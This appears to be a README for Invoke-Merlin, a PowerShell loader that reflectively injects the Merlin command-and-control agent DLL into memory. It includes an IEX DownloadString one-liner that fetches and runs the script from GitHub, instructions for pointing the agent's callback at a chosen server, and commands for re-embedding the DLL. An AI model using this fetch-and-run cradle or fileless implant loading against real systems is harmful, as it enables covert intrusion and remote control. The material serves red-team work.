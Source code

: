 # Invoke-Merlin
This is a PowerShell script based on the work by Joe Bialek
(@JosephBialek) and Matt Graeber (@mattifestation) for
PowerSploit's [Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
used to reflectively load Merlin into memory. The script contains a
Base64 encoded version of `merlin.dll`.

An example of running the script from GitHub is:
`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ne0nd0g/merlin/master/data/bin/dll/Invoke-Merlin.ps1');Invoke-Merlin`

An example of running the script locally, using dot sourcing to read the
 script in, is:
`. C:\Invoke-Merlin.ps1;Invoke-Merlin`

## Limitations
It is important to note that the script is currently in the
Proof-of-Concept stage and will call back to the Merlin server at
127.0.0.1. Future work will facilitate specifying the value when
executing the script.

One option to overcome this is to hard-code in the target Merlin server
address into the `url` variable of the `cmd/merlinagent/main.go` prior
to creating the DLL.

## Invoke-ReflectivePEInjection
All of the normal Invoke-ReflectivePEInjection.ps1 script is still in
place and allows the user to additionally leverage any of the scripts
original functionality. The only significant change is that the
`-PEBytes` parameter is not required and will default to merlin.dll.

## Update DLL
The following steps can be used to update the DLL in the script using
PowerShell:
* `$PEBytes = [IO.File]::ReadAllBytes('C:/Go/src/Ne0nd0g/merlin/data/bin/dll/merlin.dll')`
* `$Base64String = [System.Convert]::ToBase64String($PEBytes)`
* `(Get-Content data/bin/powershell/Invoke-Merlin.ps1) | foreach-object {$_ -replace '^\$global\:merlin \= (.*)', ('$global:merlin = ' + "'" + $Base64String + "'")} | Set-Content data/bin/powershell/Invoke-Merlin.ps1`